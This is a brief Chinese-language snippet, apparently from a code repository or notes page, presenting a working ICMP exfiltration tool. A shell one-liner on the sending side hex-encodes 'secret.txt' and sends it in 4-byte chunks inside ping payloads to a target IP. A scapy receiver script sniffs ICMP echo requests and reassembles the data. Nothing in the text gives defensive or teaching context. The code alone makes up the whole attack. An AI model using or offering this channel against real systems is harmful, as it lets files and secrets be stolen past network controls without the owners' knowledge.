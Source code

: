 PING 发送端:

xxd -p -c 4 secret.txt | while read line; do ping -c 1 -p $line ip; done  
 

接收端ping_receiver.py:

```python
import sys  
  
try:  
    from scapy.all import *  
except:  
    print("Scapy not found, please install scapy: pip install scapy")  
    sys.exit(0)  
  
  
def process_packet(pkt):  
    if pkt.haslayer(ICMP):  
        if pkt[ICMP].type == 8:  
            data = pkt[ICMP].load[-4:]  
            print(f'{data.decode("utf-8")}', flush=True, end="", sep="")  
  
sniff(iface="eth0", prn=process_packet)  
python3 ping_receiver.py
```
